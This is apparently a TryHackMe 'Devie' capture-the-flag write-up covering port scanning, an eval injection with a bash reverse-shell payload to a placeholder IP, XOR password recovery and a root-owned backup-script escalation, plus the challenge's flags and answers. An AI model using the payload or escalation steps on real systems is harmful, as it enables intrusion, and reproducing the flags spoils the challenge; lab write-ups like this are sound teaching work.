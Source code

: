 # Devie

A developer has asked you to do a vulnerability check on their system.

<Image src="/images/writeups/thm/challenges/devie/icon.png" width="128" />

## Task 1 - What are the flags?

> What is the first flag?

THM{Car3ful_witH_3v@l}

> What is the second flag?

THM{X0R_XoR_XOr_xOr}

> What is the root flag?

THM{J0k3r$\_Ar3_W1ld}

## Writeup

### Scanning

It is possible to start by scanning the machine for open ports with nmap.

There are only the 22 port for SSH and 5000.

<Image src="/images/writeups/thm/challenges/devie/nmap.png" />

By connecting to the port 5000 with the browser we can find a web application.
The website allows to do different math calculations.

<Image src="/images/writeups/thm/challenges/devie/website.png" />

In the footer of the page is possible to download the source code.

### First flag

By looking careful to the code we can see a vulnerability in the eval function with user input. There is no sanitation, it only checks that the values given are string.

<Image src="/images/writeups/thm/challenges/devie/vuln.png" />

We can try to obtain a reverse shell by using a custom payload.

For example:

```py
__import__('os').system('bash -c \'bash -i >& /dev/tcp/<IP>/<PORT> 0>&1\'')#
```

Substitute the IP and the port.
On your machine run:

```sh
nc -nvlp <PORT>
```

Once inside the machine, the first flag is in the home folder of the user: `THM{Car3ful_witH_3v@l}`.

<Image src="/images/writeups/thm/challenges/devie/flag1.png" />

### Second flag

In the home folder of the user (Bruce) we can find a note with this content:

```
Hello Bruce,

I have encoded my password using the super secure XOR format.

I made the key quite lengthy and spiced it up with some base64 at the end to make it even more secure. I'll share the decoding script for it soon. However, you can use my script located in the /opt/ directory.

For now look at this super secure string:
NEUEDTIeN1MRDg5K

Gordon
```

The encryption process is `encode_base64(cleartext ^ key) = ciphertext`

We can encrypt a simple message like a very long list of duplicated 'a'.
In this way it is possible to calculate the key.

`decode_base64(ciphertext) = ciphertext = cleartex ^ key -> cleartex ^ key ^ cleartext = key`

<Image src="/images/writeups/thm/challenges/devie/key.png" />

It is possible to write a simple Python script to decrypt easily the password.

```py
import base64

cleartext = "00000000000000000000000000"
ciphertext = "Q0VAVUJDVVNCVURbVUlIX0JIX0JDRUBVQkM="

decoded = base64.b64decode(ciphertext)

# Find the key value
key = ""
for i, c in enumerate(decoded):
    # Remember c ^ cleartext = cleartex ^ key ^ cleartext = key`
    key += chr(c ^ ord(cleartext[i]))

ciphertext = b"NEUEDTIeN1MRDg5K"
decoded = base64.b64decode(ciphertext)

# Find the password value
password = ""
for i, c in enumerate(decoded):
    # Remember c ^ key = cleartext
    password += chr(c ^ ord(key[i]))

print(password)
```

By executing this script we can find the password `G0th@mR0ckz!`.
The second flag is inside the home folder of the user Gordon: `THM{X0R_XoR_XOr_xOr}`.

<Image src="/images/writeups/thm/challenges/devie/flag2.png" />

### Third flag

There is a custom script called `backup` in `/usr/bin` that we can execute.
It copies everything inside the reports folder of gordon to the backups folder.
This action is made as root, so we can add a symlink to the root folder and make it copy also that.

```sh
#!/bin/bash
cd /home/gordon/reports/
cp * /home/gordon/backups/
```

```
bash -p
```

The final flag is `THM{J0k3r$_Ar3_W1ld}`.
